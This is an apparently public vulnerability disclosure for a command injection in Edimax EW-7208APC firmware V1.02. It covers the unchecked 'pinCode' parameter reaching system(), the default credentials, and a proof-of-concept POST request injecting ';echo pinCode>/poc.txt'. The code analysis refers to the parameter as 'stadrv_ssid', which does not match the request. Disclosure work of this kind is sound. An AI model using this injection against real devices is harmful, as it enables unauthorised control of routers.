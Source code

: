 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'pinCode'` parameter in the 'formWpsStart5G' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)
## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formWpsStart5G' is below:
![vulner_code.png](./img/vulner_code1.png)
![vulner_code.png](./img/vulner_code2.png)
- ​**websGetVar** retrieves POST parameters 'stadrv_ssid'.
- **system()** use the param_1 for system without check, resulting a command injection in this place.

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formWpsStart5G HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/adv_wireless.asp
Upgrade-Insecure-Requests: 1

configOption=pin&pinCode=;echo pinCode>/poc.txt
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)